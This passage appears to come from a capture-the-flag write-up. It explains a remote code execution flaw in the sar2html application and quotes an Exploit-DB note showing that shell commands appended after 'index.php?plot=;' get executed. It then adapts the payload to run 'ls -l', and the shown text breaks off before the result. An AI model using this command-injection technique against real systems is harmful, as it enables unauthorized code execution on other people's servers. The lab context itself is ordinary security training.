 ![8-3](img/8-3.png)

Exploit-db show `sar2html` is an vulnerable application with Remote Code Execution exploit available.

Example of the payload showing as below:

```
In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute 
the command you entered.

After command injection press "select # host" then your command's  output will appear bottom side of the scroll screen.
```

Basically, from the joomla URL append `/index.php?plot=;<command-here>` will allow us to execute command in the system and output to us from `select # host` section of `sar2html`

In this case, let's modify payload to suit our environment as below:

```
index.php?plot=;ls -l
```

Entering the payload along with URL as shown below:
